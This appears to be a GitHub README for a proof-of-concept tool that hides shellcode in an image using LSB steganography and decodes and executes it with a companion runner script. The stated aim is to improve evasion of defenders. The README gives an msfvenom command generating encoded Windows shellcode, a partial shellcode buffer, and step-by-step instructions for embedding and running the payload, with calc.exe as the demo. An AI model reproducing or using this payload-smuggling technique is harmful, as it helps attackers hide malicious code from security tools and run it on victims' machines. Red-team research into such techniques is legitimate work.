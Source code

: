 # PyStegMalz
Python 2.7 script that uses LSB steganography to host your shellcode payloads from within a image, and a corresponding script to decode & execute the shellcode. This was a POC created as an pure experiement with defence-evasion not being the focus. However, this project will be updated continously to improve OPSEC & hopefully be a technqiue to evade the blue-team!

There are two scripts: 
`encoder.py` & `shellcode_runner.py`
For a very detailed explanation of this POC pleases check out my corresponding blog post:

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/

## Instructions for use
### Generating shellcode.
For this POC I'll generate a simple calc.exe pop-up. Let's generate the corresponding shellcode in msfvenom:

`msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -i 5 -f py`

The shellcode generated will look something like this (this precise shellcode can be found in this repo as `shellcode.txt`):

```
buf += b"\xbd\xa9\x52\xa3\x17\xd9\xce\xd9\x74\x24\xf4\x5a"
buf += b"\x31\xc9\xb1\x4c\x31\x6a\x13\x83\xc2\x04\x03\x6a"
buf += b"\xa6\xb0\x56\xad\x86\x76\x86\xf8\x2c\xab\x61\x88"
....
buf += b"\x86\x89\x46\x40\x19\x43\x18\xb6\x93\x1a\xd9\xc6"
buf += b"\x6b\xbc\xfb\xd9\xc2\x64\x05\xee\x36\x3a\x50\x88"
buf += b"\x26\x0d\x0c\xed\x7f\x35\x1b\xf5\xf3\xfe\xca\xec"
buf += b"\xe0\x90\x46\xf3"
```
Copy the contents of the shellcode, like above, into a text file and save it!
### Picking an image

For this part you can be creative, choose a fairly large image to ensure there is enough space to encode your shellcode. Save this to the same directory you put your shellcode text file in

### Encoding

`encoder.py -s shellcode.txt -i example.png`

Expected output should be: 'Payload encoded and image saved to: poc_example.png'

However, if you recieve: 'Data too large for the image.' -> Choose a larger image!

You can view this payload encoded image and you'll barely notice a change between the two.

### POC demo

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/#poc-live-demo

## Execution

Execution should be simple, just edit the `encoded_image_path` variable in the `shellcode_runner.py` script to be the filename (or path), in my case `poc_example.png` and execute the script! You should see a calc.exe pop-up :)
